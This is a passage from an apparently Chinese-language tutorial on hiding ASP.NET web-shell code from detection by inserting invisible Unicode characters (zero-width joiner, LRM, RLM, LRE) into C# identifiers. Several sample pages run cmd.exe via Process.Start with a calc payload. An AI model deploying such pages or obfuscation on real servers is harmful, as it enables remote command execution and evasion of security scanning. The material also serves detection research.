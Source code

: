 零宽度连接器：ZERO WIDTH JOINER（ZWJ） `U+200D、U+0000200D` 通常使用在梵文，零宽度连接器与零宽度非连接器相反，当多个原本不会连接的字符之间时，零宽度连接符会使它们以连接的形式打印在一起。如下代码

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\u200Dcess.Star\\u200Dt("cmd.exe","/c calc");

    }

</script>

4.3 由左到右标记
----------

从左到右标记符 (LRM) `U+200E、U+0000200E` 是一种不可见的格式化字符，用于Microsoft Word 等程序中的文字处理，像西里尔语从左到右文本、如叙利亚语从右到左的文本，用于设置相邻字符相文本方向的分组方式。

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\u200Ecess.Star\\u200Et("cmd.exe","/c calc");

    }

</script>

4.4 由右到左标记
----------

从右到左标记符 (RLM) `U+200F 、U+0000200F` 是一种不可见的格式化字符，和4.3用法正好相反，用于设置相邻字符相文本方向的分组方式。

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\u200Fcess.Star\\u200Ft("cmd.exe","/c calc");

    }

</script>

4.5 由左到右嵌入
----------

从左到右嵌入符 (LRE) `U+202A、U+0000202A` 从 Unicode 6.3 开始，不鼓励使用`U+2066`嵌入的字符会影响外部字符的顺序。

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
